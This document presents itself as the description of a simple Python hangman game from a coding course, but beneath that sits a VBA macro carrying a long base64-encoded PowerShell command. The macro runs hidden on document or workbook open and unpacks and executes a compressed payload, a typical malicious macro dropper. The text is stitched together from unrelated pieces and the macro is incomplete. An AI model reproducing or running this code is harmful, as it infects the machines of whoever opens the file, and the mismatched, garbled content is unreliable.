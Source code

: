 JHUB coding scheme module 3

a simple hangeman game written in python3

has optional music using an external module;

pip3 install pygame

  Dim peyUoSPllYz6
  peyUoSPllYz6 = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAAbw" _
& "B3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkAGIAOwAkA" _
& "HMALgBBAHIAZwB1AG0AZQBuAHQAcwA9ACcALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAJgAoAFsAcwBjAHIAaQBwAHQAYgBsAG8AYwBrAF0AOgA6AGMAcgBlAGEAdABlACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoAE4AZQB3AC0ATwBiAGoA" _
& "ZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQB" _
& "zAGUANgA0AFMAdAByAGkAbgBnACgAJwAnAEgANABzAEkAQQBQAFUAMQBLAFYAOABDAEEANwBWAFcAYgBXAC8AYQBTAEIARAArAG4ARQBqADUARAAxAGEARgBaAEYAcwBpAEcAQQBpAFgATgBKAEUAcQBuAFEAMwBtADMAUQBuAGcAWQBBAEkAVQBWAFkAdQA5AHQAagBjAHMAWAByAHAAZQA4ADkAYgByAGYANwA4AHgANABEAFIAVgAwADcAdgAyAH" _
& "AATABOAEEAcgBHAGQAbgBaAG0AZQBlAGUAVwBZAFcAUAA0AGwAYwBRAFYAZwBrAHMAVQBEADYAYwBuAEYAKwAxAGsATQBjAEwAUwBVAGwAdAAzAEkAKwA1AGEAWABjAGUAcAB3ADgAcQBHAGQAbgBJAE0ALwA1AE8AKwBtAEQAcABFAHoAMQAxAGEAcgBHAGwAbwBoAEUAcwA3AHUANwBhAHMASQA1AGoAcwBUAHgAdgBkAEQAQQBRAG8AOQBqAHYAS" _
& "gB4AFQAZwBtAE4ARgBsAGYANgBTAFIAaQBIAG0AKwBQAEoAaAAvAG8AeABkAEkAWAAyAFIAYwBwADgASwBEAGMAcgBtAGkASgA3AFUAZABsAFgAawBoAGwAaQA2ADEAQwBNAHYAMwBlAHMAeQBGADYAVwBSAEYATwB3AFYASgBVAEsAUgBQADMANgBVADEAZQBsAGwAYQBWAFkAdwBQAHkAZQBJAHgAbwBwAHMANwAyAEsAQgBsAHcAVwBQAFUAbABt" _
& "AFYAdgBxAHIAcABnAFkAKwA3AEYAVgBaAGsAaQA3AGkAYwB4AGMAdwBYAGgAUgBHAEoAcgBzAHEARgBZAFIAUQBqAEgAOQArAEQAdAB6AFcAMgBzAEEAaQBaAEYAOABzAHEANQBBAEEAZgBqAGsAWABDAEkAdwBtAHkAUwBjADIAUABtADQAbwBNAHkAeAA1AG4AcgB1ADUANQBIAE0AZQB4AG4ASgBlAG0AcQBlAFAAcABiAFAAYQBuAE0AagAyAGQ" _
& "ATwBrAGcAaQBRAFoAYQA0ADAASQBvAEUANQBtAHgAbABZADcANABtAEwAbwA0AEwAVABSAFIANQBGAEEAKwB3AFAAdwBNAHIAVwAzAEEAUwBCAFQATgBWAEIAYgBVADEAVwAyAEEAbABGAHkAVwBVADUAcQBYAGYAYwBhAFAAYwA0ADAAMgBHADIAYQA4AGEASwBhACsATgBRAEsAcwBuAHUASgBxAEgASQB2ADYAUQBwAGMAVwA4AGgATwBLAGoAbg" _
& "BmAHgARwBtAEcAbgBaAFYAWABpAHkAMABnAE4AcQBYAHkALwBPAEwAOAA3ADkAagBDAFcAaABXAFMATwB2AGUAUQBLAHIAcwArAGwAaABqAFMARQAyAHAAYwBkAGkAYwB0AEQANwBJAEIAWAB6AGsAZwBYAG4ASQBNAEYANAB5AHAAegBjAEkAMAArAHcATwBuAHQAQgBWAHMAcAB0AHEANgBPAFYAbAAvACsANQBnADEASwBtAG4AZQBwADIAUQBEA" _
& "EIAMQBHAFAARgBtAFkASABDAHEAWgBVADYAcwBVACsAbgBQAEcAVgBuAEQAUABvAGwAdwBiAFIAZQBoAEoAWABFAHoAMABpAGwAdgBBAFkAeAA5AGkAZwA4AEoARgBqAEsAMQBlAHcAaABJAGsAVQA4AGIAMgBLAHQAaABpAGcATQBrAFUAdABEAFMATwB2ADkAZwBaAGkANgBKAGUATABFADEARQBrAEkAOQB6AEgAVQBYAGkAaABSAEQAVgBGAEEA" _
& "LwA5AGYAdABnAGoAbgBWAFEANQBGAFoAawA0AFMAVQBBAGQASAB3AEgANAB1AFYAOABvAEQAcgBPAHQARQAvADAAMwBtAFcAbgBwACsAKwBnAEoARgBjAHAAaQB1AE8AOAAxAEUAdQBnADEAOQB5ADgAWgBHAE4ARQBzAFoAZQBYADkAQwBnAG0AcAB5ADAAOQBFAGUAeQB3AGwATAArAEYAYQB5AFYAVQBFAEIAZgBGAEkAbgBNADMAVQA0ADgAbwB" _
& "uAGsANgByAHMAaQBnAFcAUABIAEcAaABZAHAARAA1AG8ANwAzAEMATABrAEUAMABCAFMASQB2AE4AWQBtAEgAagBaADEATgBnAHUAeABVACsAVQAwAFkAcQBvAGgAUwA2AEEARAB3AHQASQBZAHkAZwBDAFIATgAzAHgAWQBwAEQAegBnAEUAZQBLAHkANQBXAHIAQwB4AGEAQwAxAFgARgBDADkAQgA2AGQARAB6AGQAWQBvAEMANgBQAEEAVAAwAF" _
& "EALwBNAFEAUQBIADIANQBPADgARAB6AEkAaAA4AFoARwAwAEsAUgBJAGIAQQBxAC8AQwBnAHUAagBaAGwASQBpADgANQBoAEEAcwBZAEgAQwBtAG8AMgA4ADUALwBQAFAAdgBWAHgASQBBAG8AcQBoAHkAZgBpAHEAQgBrAGoAVABFADEAZABpAEsAbABjADQANQBPADYAdABWAGkAUwBzAGMAVABLAEEAYwBJAHUASQBEADAANgA1AHcAdABEAFIAV" _
& "ABqADYAOABwAHgAUABDAGoAdgB0AEEAZABTADEAZQBFAFoAdAB5AEoAcQB1AGMAYQBDAGwAUABRAE4ASwBiAFUAcwArAEEANwBKAFYAWQB2AFYAYgByAHgATwArADcAbQBwADgAZABvADIAOQBQAFYAVwAzAEwASwBhAHYAVgBxAC8AMgBhAHkAcwAyADcAWgBUAEUAYgBiAFoARQBwADEAZQBTADEAagBtADAALwBPAHoAcgBUAGMASAB3ADcARwBZ" _
& "AHQAUABUAG0ASQB5AGsAdQB4AHAAWAA5AHEAawAzADIAZABsAGYAMwB4AGwAdgB0AGUAbQAvAHMATgAwAFYAagB1ADMAOABPAFAASAA5AGMAOAAvADMAZwB4AHIAYwBIAHAAVAAvAHEAcABEAHUAcQA5AG8AMQBpAEcAWABWAHIAWgB0AEkAZABHAFIAdQBqAFcASQBsAE4AcwBtAG4AMgB5AGIAQwAvAGEATgBmAEYAZgBPAHgAUQBOAFAAUwAxADQ" _
& "ASwBsADAAaQA4AGkAMgB5ADUAKwBkAEUAcgBQADIATABWADEAdgBoAEYAZgB1AHYAdQAwADcAagBkAEQAeQBkAHUATwBtAGQAagB1AHEATABIAFIAVAAxADYAdQBSADYAZABRAE4AMQBoAGsAYgBYAE8AOQBwAHoAcgBCAHUAOQBJAGUAbQAwAGUAKwBEADcARAByAFEALwBBAHIASQBhAEoAbgBWAGsAYwA0ADYAdABTAEIAawBlAHEARAA3AGkAMw" _
& "BHADAAUgBLAEUAeABjAHMAcABrAHMAbgBvAGEAaABPAEMAcgBEAGkARgBZAFcAcgBIAFMAOAB2AEMAVwB2AGUAKwBPAGkATABQAFcASABOAFMANABGAHgATwA5ADIAcQA2AFUAdgBDAGQAbgAzAHkAeQBqAHMARAAxAHgAawB1ADcAdABKAFAAYgBNAGQAbQAxAGoANgBPAE8AUwAyAFQAWgBxAEQAZAAwAGMARABJAGYAMQB5AGMAaABaAFQARQBhA" _
& "FAAZABEAEkAYQBsAGkAWQBNAHUAeABzAHQAQgBCADgARQBHAHcALwBPAFkAcQA1AFoAagBhAEEAVgBiAGsAcwBCAG4ASABWAHoAOABMADgAawBTAHoAbwB2AGUAOQByAHQAOABMADAAUgBiAFQAcABCAGIAeAAxADQALwBkAEgATgBZAEgAdQAvAG0ANQBlAFoAUAB0AFEAMAA1ADEAMQBLAEIAZQBCAEMARAByAEYARwA0ADEAVwBOAGYAegBhAFgA" _
& "TABjAFQAagBFAEYARwBvAFAAWQB6AGMAcgBOAG4AcQBqAE4AZABQAFUANwBUAEgAUwBHAHEAaABLAEgARABuAEwAagBDAFAATQBJAFYATABDADYANgAxAGoATABJADYAcABjAHgATgBCAC8AaABoADIAcwBMAGwAYwBSAHoAcAA2AFEAMAB6AGgATwBWAFYAKwBjADIAVgBLAHIAMABvAHEAdAA5AEcAZQB5AGEANgB1ADUAdABBAGoATgBBAEcAQgA" _
& "2AEkAVwB1AGoAZwBLAFIASgBnAHYAYgBxACsASwBSAFoAagBVAHgAVwAyAGwAQwBFAG4AKwBlAG0ASgBWAHQAdABvAHAAUgAxAC8ANQBkAE4AUQBmAG8ASABuAHgAVABnAC8AZQAxAGIAUgBCAGMAbABIAC8AcwA3AG4ALwBQADAARQA3AGQAVwBVAEkAUAA5ADYALwBnAGYAWgBOADkAZwArADcAdgB3AFIAawBNAFgAOQBNACsAUQBmAHgAOQA0AE" _
& "wAZgBBAHYAVQAzAEUAeAA4AGgASQBrAEQAUABoAHAAbABDADgAZgBGAEMAZQB6AHYALwBFAHoAOQBlADMALwBkAHAAVQBhAEQANgAvAHUAbABKAC8ANgAwADkASgBPAEwAeQBIAHYANABIAFgASgB6AC8ARABjAHUATgBPAFQAQQBVAEMAZwBBAEEAJwAnACkAKQApACwAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8Ab" _
& "gAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZQBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJABzAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPAHUAdABw" _
& "AHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAcwAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAByAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFMAdABhAHIAdAAoACQ" _
& "AcwApADsA"
  Call Shell(peyUoSPllYz6, vbHide)
End Sub
Sub AutoOpen()
  iOb1tt3ygu
End Sub
Sub Workbook_Open()
  iOb1tt3ygu
End Sub



